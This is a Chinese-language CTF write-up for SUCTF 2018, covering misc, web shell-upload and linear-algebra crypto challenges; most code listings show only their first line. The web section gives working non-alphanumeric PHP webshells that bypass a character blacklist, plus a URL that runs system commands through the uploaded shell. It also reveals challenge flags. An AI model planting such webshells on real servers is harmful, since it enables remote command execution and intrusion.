

MISC
sandgame
game.py
1 | import flag |
solution.py
1 | #coding:utf8 |
韩信点兵问题，根据中国剩余定理构造通解

Cycle
cycle.py
1 | import flag |
cipher.txt
1 | BwcIRTcACAcJUycaGBFSP4bX6WM7BA0DPw4UTTcAGwcUAAcUAQBJIkBhJE4wGgwEczsMAhMJGxqI |
类似维吉尼亚的变种，key长度远小于plain，循环异或后可统计字频，南邮CTF平台有一题相似的。详见 https://findneo.github.io/171005NuptVigenereWP/ 。稍微更改其中读取密文部分即可。flag{Something Just Like This}
1 | # coding:utf8 |
WEB
Anonymous
1 |
|
https://www.jianshu.com/p/19e3ee990cb7
1 | import requests |
$flag="SUCTF{L4GsMqu6gu5knFnCi2Te8SjSucxKfQj6tuPJokoFhTCJjpa6RSfK}";
Getshell
要求上传的webshell文件从第6个字符开始都不能在黑名单内。
1 | if($contents=file_get_contents($_FILES["file"]["tmp_name"])){ |
用burp intruder跑一遍，发现不在黑名单里的可打印字符有 $()[]_~=;. 共10个。
跑的时候需注意Intruder=>payloads=>payload encoding 处需取消勾选，否则会因为字符编码而不能得到正确的白名单。
跑的时候可以在Intruder=>options=>Grep-Match 中选择 flag illegal ，这样就可以快速看到那些字符是合法的了。
接下来就是构造一个由 $()[]_~=;. 组成的webshell了，主要思路来自 一些不包含数字和字母的webshell 。
构造出的最终结果如下：
1 | $_=_==_;$__=~一[$_];$___=~了[$_];$____=~端[$_];$_____=~得[$_];$______=~第[$_];$_______=~学[$_];$_=_.$__.$___.$____;$_=$$_;$__=$_____.$______.$______.$___.$_______.$____;$__($_[_]); |
详细注释：
1 |
|
可以有一个更短更舒服的选择
1 | $_=_==_;$__=~一[$_];$___=~了[$_];$____=~端[$_];$_=_.$__.$___.$____;$_=$$_;$_[_]($_[__]); |
详细注释：
1 | $_=_==_;//1 |
读取flag
1 | view-source:http://web.suctf.asuri.org:82/upload/54add22477b7aec5a09a6e2a280464fb.php?_=assert&__=system(%22ls%20-l%20/%22); |
上传小脚本
1 | #coding:utf8 |
写了一个用上述方法生成任意字母构成的字符串的小程序：
1 | # coding: UTF-8 |
CRYPTO
Magic
把magic视为256x256的由0，1组成的矩阵M，把cipher视为256x1的矩阵C，把key视为256x1的矩阵K，已知M,C，且M*K = C (.mod 2)，求K。
可以采用Gauss-Jordan 消元法 将增广矩阵[M|C] 简化为行阶梯形矩阵，那么变化后的C就是我们的解K。
1 | read_to_int_array = lambda x:[map(int,list(bin(int(line,16))[2:].zfill(256))) for line in open(x).readlines()] |
参考链接：
- https://blog.csdn.net/u010182633/article/details/45225179
- https://github.com/0h2o/docs/tree/gh-pages/WriteUps/SUCTF2018/CNSS_SUCTF_WRITEUP
- 也可尝试借助matlab的 rref 。
题目备份
https://github.com/findneo/ctfgodown/tree/master/20180527-suctf